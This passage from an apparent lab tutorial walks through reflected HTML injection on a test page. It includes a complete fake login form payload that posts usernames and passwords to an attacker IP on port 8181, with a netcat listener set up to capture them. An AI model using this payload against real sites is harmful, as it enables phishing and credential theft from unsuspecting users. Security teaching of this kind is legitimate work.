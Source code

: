 `figure-21`
![figure-21](https://user-images.githubusercontent.com/83446765/157544353-19b8fb02-0934-44b2-ba7d-59a1aa7b3661.png)			
			
We can also inject the HTML tags like this. as shown in figure-22. and reflected content is shown in figure-23.	</br>		

`figure-22`
![figure-22](https://user-images.githubusercontent.com/83446765/157544316-d7c57015-7ec3-4b44-a4c9-a5763fe4086d.png)			
			
`figure-23`
![figure-23](https://user-images.githubusercontent.com/83446765/157544326-4d5e1bbe-8ea4-44d0-9416-d86fd4ba223f.png)			
			
Now, we inject malicious code also. we can inject malicious code by text area field or by url.here we inject malicious code by text area field.
Here in firstname field we entered “to Armour Infosec” and in the lastname field we Enter the following HTML code. in order to set up the HTML attack. as shown in figure-24.</br>	

		<div style=" background-color:white; ">
		Please login with valid credenitals:<br>
		<form name="login" action="http://192.168.43.153:8181/login.html">
		<table>
		<tr><td>Username:</td><td><input type="text" name="username"/></td></tr><tr><td>Password:</td><td><input type="text" name="password"/></td></tr>
		<tr><td><input type="submit" value="Login"/></td></tr>
		</table>
		</form>
		</div>
			
This malicious code will create a fake user login form on the targeted web page and it will forward the form details to form action url that is `http://192.168.43.153:8181` where the atteker capture the credentials .</br>	
			
`figure-24`
![figure-24](https://user-images.githubusercontent.com/83446765/157544312-6e676c60-1666-47ac-9ae8-3a82125d6622.png)			
			
When we clicked on the “go” button, a new login form  appeared on the webpage. as shown in figure-25.</br>	

`figure-25`
![figure-25](https://user-images.githubusercontent.com/83446765/157544337-f8af5872-83ed-4edf-93b2-a1e3dd7b574c.png)			
			
Now enable netcat listener on our ip at port `8181`  in order to capture the victim’s request. as shown in the figure-26.</br>	
			
`figure-26`
![figure-26](https://user-images.githubusercontent.com/83446765/157544239-e1c8153d-5fb8-414a-ae05-7a3e935ce650.png)			
			
Now wait, until the victim open malicious page into his browser, and enters his credentials. as shown in the figure-27.</br>	

`figure-27`
![figure-27](https://user-images.githubusercontent.com/83446765/157544331-bd8a5636-a6a4-4af2-8785-447c60b4e16d.png)			
			